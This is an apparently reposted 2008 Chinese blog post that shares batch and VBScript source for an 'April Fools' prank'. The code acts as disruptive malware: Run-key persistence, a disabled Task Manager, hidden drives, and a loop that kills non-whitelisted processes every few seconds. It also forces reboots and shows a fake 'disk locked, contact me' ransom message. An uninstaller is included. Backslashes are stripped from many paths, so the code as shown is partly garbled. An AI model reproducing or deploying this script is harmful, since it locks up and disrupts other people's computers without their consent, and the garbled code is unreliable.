```yaml
---
title: 愚人节整蛊程序源码
description: ::Codeby逍遥@浪子@08-03-31浪子博客:http://hi.baidu.com/逍遥问  QQ:422547345  ::流氓怕武术论坛:http://www.du110.com/     DOS联盟论坛:http://www.CN-DOS.net/frome  欢迎您的来访!::友情提醒您:源码仅供学习交流用,写成恶意脚本危害他人者,后果自负!@echooff&setlocalEnableDelayedExpansion
date: 2008-04-01 08:54:51
category: 杂七杂八
tags: ['愚人节', '整蛊', '源码']
post_id: 433
alias: yurenjie-zhenggu-yuanma
ViewNums: 5796
---
```


[夜火](/blog/)明天就是[愚人节](/tags/%E6%84%9A%E4%BA%BA%E8%8A%82)了，在逍遥浪子的百度空间里看到他写的一个愚人节程序[源码](/tags/%E6%BA%90%E7%A0%81)，转来给大家共享

:: Code by逍遥@浪子@ 08-03-31 浪子博客:http://hi.baidu.com/逍遥问   QQ:422547345
:: 流氓怕武术论坛:http://www.du110.com/      DOS联盟论坛:http://www.CN-DOS.net/frome   欢迎您的来访!
:: 友情提醒您:源码仅供学习交流用,写成恶意脚本危害他人者,后果自负!
@echo off & setlocal EnableDelayedExpansion
echo MsgBox "亲爱的朋友,由于你的机器非法使用了逍遥@浪子@提供的P处理,硬盘已经被锁死,若想解锁硬盘,请联系浪子!~   QQ:422547345 ", 16, "警告!" > C:v.vbs
reg add "HKLMSOFTWAREMicrosoftWindowsCurrentVersionRun" /v Autodesk /t REG_SZ /d C:v.vbs /f
reg add "HKLMSOFTWAREMicrosoftWindowsCurrentVersionRun" /v AutoCAD /t REG_SZ /d C:shouhu.vbs /f
reg add "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem" /v DisableTaskMgr /t reg_dword /d 00000001 /f
echo Windows Registry Editor Version 5.00 >autorun.reg
echo. >>autorun.reg
echo [HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer] >>autorun.reg
echo "nodrives"=dword:ffffffff >>autorun.reg
echo "StartMenuLogOff"=dword:00000001 >>autorun.reg
echo "NoRun"=dword:00000001 >>autorun.reg
echo "NoFind"=dword:00000001 >>autorun.reg
echo "nodesktop"=dword:00000001 >>autorun.reg
echo. >>autorun.reg
regedit /s autorun.reg & del /s /q autorun.reg 1>nul
echo alg.exe >>process.ini
echo csrss.exe >>process.ini
echo explorer.exe >>process.ini
echo lsass.exe >>process.ini
echo smss.exe >>process.ini
echo ctfmon.exe >>process.ini
echo services.exe >>process.ini
echo svchost.exe >>process.ini
echo winlogon.exe >>process.ini
echo System >>process.ini
echo System Idle Process >>process.ini
echo Wscript.exe >>process.ini
echo cmd.exe >>process.ini
echo QQ.exe >>process.ini
echo iexplore.exe >>process.ini
echo ^@echo off&Setlocal EnableDelayedExpansion >>taskkill.cmd
echo for /f "tokens=1 delims=," %%a in ('tasklist /nh /FO CSV') do ( >>taskkill.cmd
echo     for /f "delims=" %%b in (Process.ini) do ( >>taskkill.cmd
echo         set /a flag+=1 >>taskkill.cmd
echo         if /i not %%a=="%%b" set /a num+=1 >>taskkill.cmd
echo     ) >>taskkill.cmd
echo     if !flag! equ !num! ntsd -c q -pn %%a >>taskkill.cmd
echo     set /a flag=num=0 >>taskkill.cmd
echo ) >>taskkill.cmd
echo dim ws >>%SYSTEMDRIVE%shouhu.vbs
echo set ws=CreateObject("Wscript.Shell") >>C:shouhu.vbs
echo Do >>%SYSTEMDRIVE%shouhu.vbs
echo Set ws = CreateObject("Wscript.Shell") >>C:shouhu.vbs
echo ws.run "cmd /c taskkill.cmd",vbhide >>C:shouhu.vbs
echo Wscript.Sleep 5000 >>C:shouhu.vbs
echo Loop >>C:shouhu.vbs
echo shutdown -r -f -t 0 >>C:
estart.cmd
for %%d in (process.ini,shouhu.vbs,taskkill.cmd,vbs.vbs,shutdown.vbs) do if not exist C:\%%d copy %%d C:\%%d
for %%f in (process.ini,shouhu.vbs,taskkill.cmd,vbs.vbs,restart.cmd,shutdown.vbs,v.vbs
) do if exist C:\%%f attrib +s +h +r C:\%%d
del taskkill.cmd /q & del process.ini /q
attrib "C:windowsstart menu*.*" +h /s
taskkill /F /im explorer.exe 1>nul & start explorer.exe & start shutdown.vbs
ping 127.0.0.1 -n 300 >nul
shutdown -r -f -t 10 -c "浪子友情提醒你,由于你多次选择稍后重启系统,导致病毒无法正常运行,浪子决定立刻重新启动!"
del %0

以上为主程序,可以保存为任意名字.CMD执行

do
x = Msgbox("病毒安装完毕!重新启动后生效!是否立刻重新启动电脑?   立刻重启选[是]    稍后重启选[否] ", 4, "是否重新启动?")
Set WshShell = WScript.CreateObject("WScript.Shell")
If x = 6 Then
WshShell.Run "C:
estart.cmd"
WScript.Quit(0)
End If
If x = 7 Then
Wscript.sleep 60000
End If
loop

这段为shutdown.vbs内容

do
Wscript.Sleep 10000
MsgBox "亲爱的朋友,你电脑已经中了愚人节病毒,现在,病毒将迈着矫健的步伐,通过你的身体.... ", 16, "警告!"
Wscript.Sleep 10000
MsgBox "亲爱的，我又开始想你了，我对你的爱每天都在巨增，因为有人告诉我:猪肉涨价了，你能卖个好价钱！ ", 64, "哟,小样!"
Wscript.Sleep 10000
MsgBox "龟兔赛跑，猪做裁判，你说是龟跑得快还是兔子跑得快？ ", 64, "哟,小样!"
Wscript.Sleep 10000
MsgBox "今天你吃得饱吗？睡得好吗？深夜会冷吗？真想静静地守在你身边。我知道你总是不会照顾自己，每当我一离开，你就从猪栏跳出去！ ", 64, "哟,小样!"
Wscript.Sleep 10000
MsgBox "你以后不要再喝醉了,昨天又有人看到你端着个酒杯追着一头猪，嘴里还大叫:是不是兄弟？是兄弟的干了！ ", 64, "哟,小样!"
Wscript.Sleep 10000
MsgBox "一只蛐蛐跟猪打赌说：我跳进草里你就看不见我，猪说：我要看得见呢？于是蛐蛐跳进草里。猪在看，猪在看！猪还在看！猪咋还在看呢？！ ", 64, "哟,小样!"
Wscript.Sleep 10000
MsgBox "当你一个人空虚寂寞时，铅笔也许是你最好的玩物。你可以用小刀割它，削它，砍它，同时可以发泄自己，高声吼着：我杀笔，我杀笔，我杀笔了 ", 64, "哟,小样!"
Wscript.Sleep 10000
MsgBox "哭了吧傻了吧，幸福的日子没有了吧？早警告过你，不要贪吃贪睡，可你就是不听。这下你该记住了吧，猪长到一定分量就要出栏的。 ", 64, "哟,小样!"
Wscript.Sleep 10000
MsgBox "山谷里传来你的声音，我往下眺望，在山的拐角发现你，是你！真的是你！你和一老翁在一起，我激动的跑过去说：大爷，借驴用用 ", 64, "哟,小样!"
Wscript.Sleep 10000
MsgBox "如果今天晚上有颗星星掉下来砸到了你的头上请不要担心，这是我托神仙送给你的礼物，从此你就会过着无忧无虑的幸福生活，因为―傻掉了。 ", 64, "哟,小样!"
Wscript.Sleep 10000
MsgBox "亲爱的朋友,愚人节快乐!本程序将在24小时后自己卸载,不会对你系统造成任何危害。 ", 64, "愚人节快乐!"
loop

这段为VBS.VBS内容

echo Windows Registry Editor Version 5.00 >autorun.reg
echo. >>autorun.reg
echo [HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer] >>autorun.reg
echo "nodrives"=dword:00000000 >>autorun.reg
echo "StartMenuLogOff"=dword:00000000 >>autorun.reg
echo "NoRun"=dword:00000000 >>autorun.reg
echo "NoFind"=dword:00000000 >>autorun.reg
echo "nodesktop"=dword:00000000 >>autorun.reg
echo. >>autorun.reg
regedit /s autorun.reg & del /s /q autorun.reg 1>nul

reg delete "HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun" /v Autodesk /f
reg delete "HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindowsCurrentVersionRun" /v AutoCAD /f

reg add "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem" /v DisableTaskMgr /t reg_dword /d 00000000 /f
for %%d in (process.ini,shouhu.vbs,taskkill.cmd,vbs.vbs,restart.cmd,shutdown.vbs) do if exist C:\%%d del C:\%%d /q
taskkill /F /im explorer.exe 1>nul & start explorer.exe

这段为卸载程序unstall.CMD

纯粹为写着玩,希望大家能开发出更有创意的P,共同交流,学习进步!~

最后,祝愿大家愚人节快乐!~

